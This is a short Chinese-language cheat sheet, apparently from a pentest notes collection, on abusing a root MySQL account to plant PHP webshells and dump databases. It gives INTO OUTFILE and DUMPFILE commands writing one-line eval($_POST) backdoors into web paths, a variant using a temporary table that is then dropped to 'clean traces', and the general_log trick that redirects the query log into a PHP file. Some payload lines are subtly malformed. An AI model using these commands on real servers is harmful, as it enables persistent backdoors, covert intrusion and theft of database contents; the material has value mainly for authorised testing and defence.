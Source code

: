 ## 前提条件
权限： 必须是ROOT
secure_file_priv没有限制

> 可以使用 mysql命令查询 show variables like '%secure%’;
>
> secure_file_priv的值为null ，表示限制mysqld 不允许导入|导出
> secure_file_priv的值为/tmp/ ，表示限制mysqld 的导入|导出只能发生在/tmp/目录下
> secure_file_priv的值没有具体值时，表示不对mysqld 的导入|导出做限制

## 写入Websehll
利用函数

- into dumpfile()
- into outfile()
- load_file()
1. 直接写入
   注意：这个方法必须得是ROOT用户权限

```mysql
select '<php eval($_POST[shell])?>' into outfile 'c:\\shell.php';
```

2. 创建表单写入

```mysql
#先创建数据表
CREATE  table 'mysql'.'shell' ('webshell'  text not null)

#向表单中写入一句话木马
insert Into  mysql.shell  values('<?php $eval($_POST[shell]);?>');

#查询数据导出webshell
select 'webshell' from 'shell'  into outfile 'c:\\1.php'

#删除表，清理痕迹。
drop table if exists 'shell'
```


## 脱库

``` mysql
#Into outfile
select * from test into outfile '/tmp/test.txt'

#Into dumpfile
 select * from test into dumpfile '/tmp/test.txt'
```

outfile 与dumpfile的脱裤区别

1. dumpfile只输出一行内容，outfile多行。
2. outfile函数在将数据写入到文件时会进行特殊格式转换 例如\n，则dumpfile则保持原数据格式。

1.查看genera文件配置情况

```
show global variables like "%genera%";
```

2.开启日志记录

```
set global general_log='on';
```

3.日志文件导出指定目录

```
set global general_log_file='C:/phpstudy/WWW/hp.php';
```

4.记录sql语句写马，演示一下，没有安全狗，直接传原马

```
select '<?php @eval($_POST["hp"]); ?>';
```

5.关闭记录

```
set global general_log=off;
```